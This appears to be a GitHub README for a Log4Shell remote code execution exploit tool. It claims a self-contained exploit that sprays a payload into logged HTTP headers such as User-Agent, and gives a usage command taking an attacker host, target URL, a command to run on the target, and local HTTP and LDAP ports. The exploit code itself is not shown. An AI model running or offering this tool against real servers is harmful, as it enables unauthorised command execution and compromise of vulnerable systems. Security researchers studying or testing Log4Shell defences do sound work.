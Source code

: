 ## Log4Shell RCE Exploit 

[![asciicast](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj.svg)](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj)

fully independent exploit does not require any 3rd party libs.
The exploit spraying the payload to all possible logged HTTP Headers such as `X-Forwarding , Server-IP , User-Agent` 
### Usage
```shell
python main.py -i lhost -u http://target:targetport -c "command_to_execute" -p lhttp_port -l lldap_port
 ```


### Requirements 
- java-8-openjdk
- pip install -r requirements.txt
- python3.6+
